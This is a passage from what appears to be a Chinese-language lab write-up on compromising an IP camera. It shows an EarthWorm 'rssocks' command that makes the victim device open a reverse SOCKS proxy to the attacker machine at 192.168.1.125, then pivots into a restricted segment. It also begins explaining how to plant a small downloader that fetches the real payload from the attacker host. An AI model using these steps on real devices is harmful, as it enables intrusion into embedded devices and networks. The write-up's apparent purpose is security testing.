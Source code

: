 受害摄像头 (192.168.1.64)

```plain
./ew -s rssocks -d 192.168.1.125 -e 8888      
```

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

攻击机物理机（192.168.31.x）

在上一步我们做了隔离，`192.168.1.126` 只允许同网段非 `192.168.1.97` 访问

使用 `socks5://192.168.1.125:1080` 访问 `http://192.168.1.126`

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

尝试用代理访问

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

成功建立代理

## 0x04 利用下载器

> 这部分坑特别多，我耗费了几天才找到解决办法，接下来将展示踩坑过程，我会尽量简洁，忽略小坑

通过上面的步骤，我们已经可以完成实际控制，但是直接写入木马或者代理对部分设备本身来说可能有不小的压力，尤其是这种嵌入式设备，我这次测试就被迫重启了好多好多次，每次重启设备上的木马等痕迹就完全清空了

想象一下我们先传输了 `MSF` 木马，之后利用 `meterpreter` 传输了代理或者攻击程序，利用了一小会儿设备崩了，重启，一切又回到原样了，于是我们就进入了循环，但问题是，这些循环是人来驱动的，并不工程化，这不是实际攻击实施过程中追求的

**我们更希望这部分内容是工程化的**，而且由于指令集的不同，各种木马程序和代理程序是否能够兼容也是一个巨大的问题

这节我们要介绍一些恶意攻击者常用的思路，也就是先传输小的下载器进去，之后利用下载器下载真正的 payload，当然了，其实写入 `meterpreter` 的本质也是一样的

可能有小伙伴会说，这不难呀，有必要单独说吗？

这里单独拿出来写是因为涉及到下载器编写、跨平台编译等，我们先看一下成型的下载器

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

![图片](assets/1710993392-37d80127b73f829661c0d17b431e0b18.svg)

`wget` 和 `curl` 由于做了很多功能，所以比较大，还不如直接写入一个 `ew` 了

### 1\. 编写下载器

下面我们来写一个最小的下载器，功能就下载 `http://192.168.1.125/a`
